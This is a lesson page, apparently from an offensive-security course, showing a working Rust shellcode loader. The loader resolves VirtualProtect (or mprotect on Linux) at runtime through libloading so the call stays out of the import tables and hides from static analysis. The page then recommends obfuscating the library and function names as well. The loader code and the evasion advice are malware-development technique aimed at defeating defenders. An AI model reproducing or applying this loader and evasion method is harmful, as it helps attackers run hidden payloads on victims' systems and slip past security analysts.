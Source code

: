 +++
title = "Dynamic imports"
weight = 5
+++

The technique of dynamic module import, which is cross-platform for both Windows and Linux, involves dynamically loading external libraries at runtime. This way, we obfuscate the use of certain functionalities during static analysis.

To quickly understand how a static analyst reads our dynamic function calls, it is important to know that the functions we call are stored in specific places in our binaries:

- On Windows, which uses the PE format, the called functions are stored in the IAT (Import Address Table), which is a data structure that contains the list of function addresses.
- On Linux, which uses the ELF format, the called functions are stored in the GOT (Global Offset Table), which contains the list of function addresses from dynamic libraries.

For our example, we will reuse the shellcode loader we developed earlier in the course and obfuscate the call to the `VirtualProtect` function on Windows (the code is fully compatible with Linux to obfuscate the call to the `mprotect` function):

```
.
├── Cargo.lock
├── Cargo.toml
└── src
    ├── main.rs
    └── shellcode.bin
```

```rust
use libloading::{Library, Symbol};
use std::mem;

const SHELLCODE: &[u8] = include_bytes!("shellcode.bin");

fn main() {
    let map = Box::new(SHELLCODE);
    let mut old_p = 0;

    unsafe {
        let lib = Library::new("kernel32.dll").unwrap();
        let virtual_protect = lib
            .get::<Symbol<extern "stdcall" fn(*const (), usize, u32, *mut u32)>>(b"VirtualProtect")
            .unwrap();

        virtual_protect(map.as_ptr() as *mut (), map.len(), 32, &mut old_p);

        let exec_shellcode: extern "C" fn() -> ! = mem::transmute(map.as_ptr());
        exec_shellcode();
    }
}
```

In this implementation, we start by using the `libloading` dependency, which we have already used in a previous part of the course. It is a great wrapper around the Windows API because it uses the famous `LoadLibraryA` and `GetProcAddress` functions under the hood. (On Linux, it uses the `dlopen` and `dlsym` functions)

Next, we load the "kernel32.dll" library into memory, which contains most of the Windows API functions, including the "VirtualProtect" function that we are interested in.

Now, we find the address of our function by its name and apply its prototype `extern "stdcall" fn(*const (), usize, u32, *mut u32)`, which we extracted from the official function documentation. This will return a function pointer in the `virtual_protect` variable.

## Conclusion

We can now call our `virtual_protect` function as if we had imported it normally, without its address being present in the IAT or GOT.

It is also advisable to obfuscate the strings `kernel32.dll` and `VirtualProtect` to further complicate static analysis.
